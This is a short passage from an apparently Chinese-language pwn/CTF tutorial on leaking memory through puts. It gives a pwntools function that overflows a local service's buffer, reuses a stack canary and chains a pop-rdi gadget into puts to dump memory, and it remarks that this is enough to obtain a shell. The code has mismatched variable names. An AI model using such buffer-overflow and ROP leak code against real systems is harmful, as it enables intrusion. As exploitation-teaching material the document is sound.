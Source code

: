 



#### 使用puts函数

编写一个函数，调用此函数，可以输出内存中指定地址的数据。

```python
def puts_byte(buf_flag:int,canary_flag:bytes,pop_rdi:bytes,addr:int,puts_addr:bytes,byteNumlen:int):

    #puts_addr 从指定的内存地址
    #byteNumlen 要获取的字节数
    
    #已经获取的字节数
    byteNum = 0
    #已经获取的字节
    DataAll = b""


    while byteNum < byteNumlen:

        p = remote('127.0.0.1',9999)
        p.recvuntil(b"You Name?:")
		
        #输出指定内存中的内容
        payload =  b"A" * buf + canary + p64(0)
        payload += pop_rdi + p64(addr)
        payload += puts_addr
        p.send(payload)
        
        
		#获取输出的内容
        Data = p.recvline()
        p.close()
		
        #puts函数会持续输出，直到遇到0，然后补上一个换行字符
        Data = bytearray(Data)
        #将换行字符替换为0
        Data[-1] = 0
        Data = bytes(Data)

        DataAll += Data

        byteNum += len(Data)
        addr += len(Data)

    #进行裁剪，如果获取多了
    DataAll = DataAll[0:byteNumlen]

    return DataAll
```



使用这种方法，可以获得很多的地址，甚至从内存中将整个二进制文件获取到，这足够获取到shell权限了
